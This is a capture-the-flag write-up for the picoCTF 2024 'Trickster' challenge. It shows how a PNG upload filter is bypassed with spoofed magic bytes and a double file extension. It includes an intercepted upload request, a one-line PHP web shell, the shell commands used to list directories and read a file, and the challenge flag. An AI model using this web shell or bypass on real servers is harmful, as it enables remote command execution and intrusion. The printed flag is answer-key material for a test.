 # picoCTF2024 Trickster Write Up

## Description

> I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:55965/)!

## Solution

First I tried uploading a PNG file with regular text data. This resulted in the following message from the server:

> Error: The file is not a valid PNG image: 68656c6c

To compare this with the expected behaviour on successful file upload, I uploaded a regular PNG image. This produced the following message:

> File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully

At this point I knew I needed to more work to bypass whatever file upload restrictions were in place. Before continuing, I checked `robots.txt` which had the following contents:

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

Checking out `instructions.txt` revealed the following details about the upload process:

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

This reveals some information about how the server is verifying that the uploaded file is in fact a PNG file. It first checks for the `.png` extension, and then checks that the magic bytes match. The magic bytes are a sequence of bytes often used at the beginning of a file to indicate the file type. In the case of PNG files, this is literally the ascii codes for the characters P, N and G.

The `uploads` directory was not accessible, although from context is the directory in which uploaded files are stored.

This is enough information to subvert the PNG restriction on the file upload system. First I created a file called `malicious.png` containing the following text contents:

```
PNG
I uploaded a text file!
```

The `PNG` string at the top of the file ensures that the magic bytes are set to the correct value and setting the file name to have the `.png` bypasses the first check. 

Uploading this file results in a successful upload! There is a problem however - when I attempted to access the file by sending a POST request to `/uploads/malicious.png` we get the following message:

> The image “http://atlas.picoctf.net:56700/uploads/malicious.png” cannot be displayed because it contains errors.

Since the request is asking for a `.png` file, the server is attempting to send the file back as an image. However, the file does not contain image data - it contains character data.

I needed a way to include both the `.png` file extension and a `.txt` extension so that the file upload is successful, but upon retrieval the file is treated as a regular text file. A common way of doing this is by naming the file `malicious.png.txt`. This can often work, because misconfigured PNG extension validation often checks for the extensions presence anywhere in the file path.

My browser would not allow me to upload a file that doesn't end in `.png` directly, so I used Burpsuite to intercept the request and modify the file name. For instance, the POST request for `malicious.png` looks like:

```http
POST / HTTP/1.1
Host: atlas.picoctf.net:56700
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------34041064133888725822962506192
Content-Length: 250
Origin: http://atlas.picoctf.net:56700
Connection: close
Referer: http://atlas.picoctf.net:56700/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------34041064133888725822962506192
Content-Disposition: form-data; name="file"; filename="malicious.png"
Content-Type: image/png

PNG
I uploaded a text file!

-----------------------------34041064133888725822962506192--
```

After intercepting this request I changed the `filename` parameter in the `Content-Disposition` header to `malicious.png.txt` which I then forwarded to the server.

The upload works successfully, and accessing `/uploads/malicious.png.txt` produces the contents:

```
PNG
I uploaded a text file!
```

Indicating that the file is being accessed as a text file. 

At this stage we have passed the first major hurdle - uploading a file with contents of our choosing. With a file upload vulnerability there are many potential avenues to try. However, the challenge tags include `browser_webshell_solvable`, meaning that this is a good first thing to try.

[Wikipedia](https://en.wikipedia.org/wiki/Web_shell) defines a webshell as:

> a [shell-like interface](https://en.wikipedia.org/wiki/Shell_(computing) "Shell (computing)") that enables a [web server](https://en.wikipedia.org/wiki/Web_server "Web server") to be remotely accessed, often for the purposes of [cyberattacks](https://en.wikipedia.org/wiki/Cyberattack "Cyberattack"). A web shell is unique in that a [web browser](https://en.wikipedia.org/wiki/Web_browser "Web browser") is used to interact with it.

The Wikipedia article also contains a simple example of a PHP web shell:

```php
<?=`$_GET[x]`?>
```

The above PHP code executes a shell command on the server passed through a query parameter `x`. For instance, if a PHP file `malicious.php` containing the above contents is uploaded to `www.mywebsite.com/uploads` then navigating to `www.mywebsite.com/uploads/malicious.php?x=ls` should produce the results of running the `ls` command in the `uploads` directory on the server.

To test this I modified the contents of `malicious.png` to contain:

```php
PNG
<?=`$_GET[x]`?>
```

I then uploaded this file using the steps described above, swapping out the `.txt` extension to `.php`. I then tested out the `ls` command using the following query:

```
http://atlas.picoctf.net:50746/uploads/malicious.png.php?x=ls
```

Note: since a challenge instance is used, swap out `http://atlas.picoctf.net:50746` for your own challenge domain.

This resulted in the following contents being outputted:

```
PNG malicious.png malicious.png.php malicious.png.txt
```

These are the files in the `uploads` directory i.e. the web shell works. Inspecting the directory above (i.e. the web root) requires the following query:

```
http://atlas.picoctf.net:50746/uploads/malicious.png.php?x=ls%20..
```

Which executes the command `ls ..` on the server. This produces the following contents:

```
PNG GAZWIMLEGU2DQ.txt index.php instructions.txt robots.txt uploads
```

The file `GAZWIMLEGU2DQ.txt` seems interesting - to access it we can run the query:

```
http://atlas.picoctf.net:50746/uploads/malicious.png.php?x=cat%20..%2FGAZWIMLEGU2DQ.txt
```

This produces the flag:

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
```

